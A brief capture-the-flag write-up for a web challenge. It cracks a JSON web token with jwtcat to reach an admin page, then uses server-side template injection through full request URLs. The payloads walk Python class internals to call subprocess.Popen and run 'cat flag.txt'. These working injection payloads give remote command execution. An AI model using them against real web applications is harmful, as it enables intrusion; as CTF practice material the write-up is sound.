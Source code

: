 Use jwtcat to get json web token for admin

Login and find link to /admin

/admin/X

gives a 404 with 'Not found /admin/x'

Try SSTI - works

http://jh2i.com:50023/admin/%7B%7B%20%27%27.__class__.__mro__[1].__subclasses__()%7D%7D lists classes

http://jh2i.com:50023/admin/%7B%7B%20%27%27.__class__.__mro__[1].__subclasses__()[401](%27cat%20flag.txt%27,shell=True,%20stdout=-1).communicate()%20%7D%7D

Use 401, subprocess.popen() to call system to cat flag.txt

